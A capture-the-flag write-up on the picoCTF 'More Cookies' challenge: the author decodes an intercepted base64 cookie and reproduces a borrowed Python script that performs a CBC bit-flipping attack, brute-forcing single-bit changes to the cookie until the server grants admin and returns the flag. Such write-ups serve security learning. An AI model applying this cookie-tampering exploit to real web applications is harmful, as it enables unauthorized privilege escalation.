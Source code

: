 I was intercepting the petitions with burpsuit, the cookies are in base64
```
┌──(cds㉿kali)-[~]
└─$ echo "Tjc5QWFlMHcwbmtvSHdnMm9qVXBVbktHUnZwTTJGeVlnY2p3UzdlWkhEalZZdnptbzY4T1djZzhVU2NnRUVtaHVMOHNXUnk5TDRsc0tDZ2RaUWtHSldubDhncGZDQTBXdDMvUmhKV29KOGQ2bGNVZjBMRjlPTDd0a3ErdTNmLzM=" | base64 -d ; echo
N79Aae0w0nkoHwg2ojUpUnKGRvpM2FyYgcjwS7eZHDjVYvzmo68OWcg8UScgEEmhuL8sWRy9L4lsKCgdZQkGJWnl8gpfCA0Wt3/RhJWoJ8d6lcUf0LF9OL7tkq+u3f/3

```


I wasnt able to guess what I have to do because i had a lack of skills, despite of this I read the hints of the challenge. So I was reading over the internet that here we can do a bit flipping attack

BIT FLIPPING ATTACK


Here we can see an explannation : 

https://crypto.stackexchange.com/questions/66085/bit-flipping-attack-on-cbc-mode/66086#66086


Here we have a hint "Cookies can Be modified Client-side" this is referring to CBC mode


Here is a script that you can use, I did not write it , very helpfull and descriptive, with all the explanations that you need.

https://github.com/HHousen/PicoCTF-2021/blob/master/Web%20Exploitation/More%20Cookies/improved_script.py

```
import requests
import base64
from tqdm import tqdm

ADDRESS = "http://mercury.picoctf.net:15614/"

s = requests.Session()
s.get(ADDRESS)
cookie = s.cookies["auth_name"]
# Decode the cookie from base64 twice to reverse the encoding scheme.
decoded_cookie = base64.b64decode(cookie)
raw_cookie = base64.b64decode(decoded_cookie)




def exploit():
    # Loop over all the bytes in the cookie.
    for position_idx in tqdm(range(0, len(raw_cookie))):
        # Loop over all the bits in the current byte at `position_idx`.
        for bit_idx in range(0, 8):
            # Construct the current guess.
            # - All bytes before the current `position_idx` are left alone.
            # - The byte in the `position_idx` has the bit at position `bit_idx` flipped.
            #   This is done by XORing the byte with another byte where all bits are zero
            #   except for the bit in position `bit_idx`. The code `1 << bit_idx`
            #   creates a byte by shifting the bit `1` to the left `bit_idx` times. Thus,
            #   the XOR operation will flip the bit in position `bit_idx`.
            # - All bytes after the current `position_idx` are left alone.
            bitflip_guess = (
                raw_cookie[0:position_idx]
                + ((raw_cookie[position_idx] ^ (1 << bit_idx)).to_bytes(1, "big"))
                + raw_cookie[position_idx + 1 :]
            )

            # Double base64 encode the bit-blipped cookie following the encoding scheme.
            guess = base64.b64encode(base64.b64encode(bitflip_guess)).decode()

            # Send a request with the cookie to the application and scan for the
            # beginning of the flag.
            r = requests.get(ADDRESS, cookies={"auth_name": guess})
            if "picoCTF{" in r.text:
                print(f"Admin bit found in byte {position_idx} bit {bit_idx}.")
                # The flag is between `<code>` and `</code>`.
                print("Flag: " + r.text.split("<code>")[1].split("</code>")[0])
                return


exploit()

```

